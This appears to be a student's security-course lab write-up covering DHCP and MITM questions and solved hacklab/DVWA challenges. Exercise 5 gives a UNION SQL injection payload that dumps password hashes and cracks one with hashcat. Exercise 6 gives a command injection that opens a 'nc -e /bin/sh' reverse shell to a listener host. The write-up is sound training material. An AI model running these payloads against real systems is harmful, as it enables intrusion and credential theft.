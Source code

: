 
> [!exercise]+ Exercise 1 - DHCP Attack
> Another type of attack that was not included in the workshop is DHCP (dynamic host configuration protocol) based attacks. Do a bit of research into how DHCP works and about some DHCP attacks and answer the following questions.
> 1. What are the 4 packets (messages) that are communicated between the client seeking and IP address and the DHCP server?
> 2. Are the 4 messages Layer 2 unicast or broadcast (be careful not to confuse between Layer 3 broadcast, which is sending to an IP broadcast address like 10.0.2.255, as opposed to Layer 2 broadcast which is sent to MAC address FF:FF:FF:FF:FF:FF).
> 3. Therefore, in a switched network, which of the 4 messages in the DHCP negotiation would the attacker be able to observe?
> 4. Briefly explain what DHCP spoofing and DHCP starvation attacks are executed, and how the two can be used in combination. 
> 5. For an adversary looking to perform MITM, which DHCP configuration option(s) would you try to manipulate? 
> 6. Briefly explain how "DHCP **snooping**" configuration in a switch work to prevent DHCP **spoofing**?


> [!exercise]+ Exercise 2 - MITM Prevention
> 1. Briefly explain (1 or 2 sentences max) how HTTPS can defeat MITM via ARP cache poisoning.
> 2. In the same context, why did Chrome developers decided to display "Not Secure" on HTTP websites?
> 3. In the same context, what's the danger of ignoring a browser error message like this one and clicking on "Continue to this website"?
> 4. Briefly write an explanation that you might provide to your grandparent (or anyone who may not be IT savvy) why they should be careful when connecting to open WiFi hotspots like the ones at airports.



> [!exercise]+ Exercise 3 
> Go to `http://<Your Hacklab VM IP addr>:8081/method.php` to get the secret!
> 
> **Answer:**
> Initially, I tried visiting the site in my browser but only received a hint: `"Hm... you don't seem to be using the correct METHOD. Explore your available OPTIONS."` This made it clear that I should attempt an `OPTIONS` request via `curl`.
> 
> ```bash
> curl -X OPTIONS http://192.168.56.113:8081/method.php
> ```
> 
> This returned the flag:
> ```
> csf2021_{helper-evaluate-mammogram}
>```


> [!exercise]+ Exercise 4
> Access `http://192.168.56.113:8081/admin.php` to get the secret!
> 
> **Answer:**
> I visited the page and clicked on the request button, which revealed the hint: `"Sorry, only superadmins are allowed to see the secret."` This led me to inspect the cookies via the browser’s developer tools.
> 
> I adjusted the `superuser` cookie to `true` and clicked on the request button again:
> 
> ```
> Welcome Super User! Here is the secret: csf2021_{client-postbox-amid}
> ```
> 
> ![[Pasted image 20240502052455.png]]


> [!exercise]+ Exercise 5
> When on the high-security setting of DVWA, go to the SQL injection section and attempt to exploit the vulnerability. A helpful hint is to examine the source code present on the page. Retrieve the hash associated with the user ‘1337’ and also convert the hash to its plaintext form. Explain the process of exploiting the vulnerability, identify the type of hash obtained, and describe the method used to convert the hash to plaintext.
> 
> **Answer:**
> 
> I began tackling the challenge by diving into the PHP source code of the SQL Injection page. I noticed that the query was directly incorporating user inputs via session variables into an SQL command. This configuration was particularly vulnerable to SQL injection, especially if those session variables could be altered.
> 
> ```
> a' UNION SELECT user, password FROM users -- -&Submit=Submit
> ```
> 
> I injected into the session variable to manipulate the SQL query. This injection effectively combined a falsified SQL command with the original, intended to pull user names and passwords directly from the database.
> 
> ```
> ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
First name: admin  
Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: gordonb  
>Surname: e99a18c428cb38d5f260853678922e03
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: 1337  
>Surname: 8d3533d75ae2c3966d7e0d4fcc69216b
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: pablo  
>Surname: 0d107d09f5bbe40cade3de5c71e9e9b7
>
>ID: ID: a' UNION SELECT user, password FROM users -- -&Submit=Submitit=Submit  
>First name: smithy  
>Surname: 5f4dcc3b5aa765d61d8327deb882cf99
>```
> 
> The output displayed the hash for user ‘1337’ as `8d3533d75ae2c3966d7e0d4fcc69216b`. From workshop 8, we know that these are md5 hashes WITHOUT salts, so we can now begin decrypting it to plain text.
> 
> - I've added an excerpt from workshop 5 to verify this
> ```
> passwords here are MD5 hashes, not plaintext passwords. But you can right away tell that the password for the user admin is the same as smithy, becuase their password hashes are identical (this is why password SALT is so important, as we will learn in later workshops).
> ```
> 
> Using the same hashcat method from assignment 1 with the `rockyou.txt` dictionary, we find that the plaintext password is `charley`
> 
> ```
> hashcat -m 500 -o out hash rockyou.txt --force
> 
> ...
> 
> 8d3533d75ae2c3966d7e0d4fcc69216b:charley
> ```
> To confirm the findings, I logged back into the DVWA using the credentials `1337` and `charley`, verifying that the password matched, thereby successfully exploiting the vulnerability and decrypting the hash.
> 
> ![[Pasted image 20240502104809.png]]


> [!exercise]+ Exercise 6
> Go to `http://<Your Hacklab VM IP addr>:8083/doa.php` to get the secret!
> 
> **Answer:**
> 
> Upon navigating to the webpage and seeing user input, I suspected a possible command injection vulnerability. Before attempting to exploit the vulnerability, I set up a **netcat listener** on my local machine using:
> 
> ```
> nc -lvp 1234
> ```
> 
> After setting up the listener, I submitted the form with the injected command and awaited the connection on my local machine.
> 
> ```
> 127.0.0.1 & nc -e /bin/sh 192.168.117.124 1234
> ```
> I now have a **reverse shell!** Using `ls -a` command to list all hidden files, I found `.the_secret_file`.
> 
> I then used the `cat` command to reveal its contents:
> 
> ```
> cat .the_secret_file
> ```
> ```
> ___________________________________________
> / csf2024s1_{botchier-disquiparancy-propp \
> \ er}                                     /
>  -----------------------------------------
>         \   ^__^
>          \  (oo)\_______
>             (__)\       )\/\
>                 ||----w |
>                 ||     ||
> ```
> 

